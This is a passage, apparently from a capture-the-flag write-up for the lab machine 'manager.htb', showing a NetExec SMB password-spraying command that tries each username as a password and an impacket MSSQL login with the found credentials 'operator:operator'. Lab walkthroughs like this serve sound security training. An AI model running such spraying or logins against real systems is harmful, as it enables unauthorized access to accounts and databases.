 -> didn't work 

```sh
nxc smb manager.htb -u usernames.txt -p usernames.txt --continue-on-success
```

![screenshot](/assets/images/manager5.png)

# MSSQL
```sh
impacket-mssqlclient manager/operator:operator@manager.htb -windows-auth
```
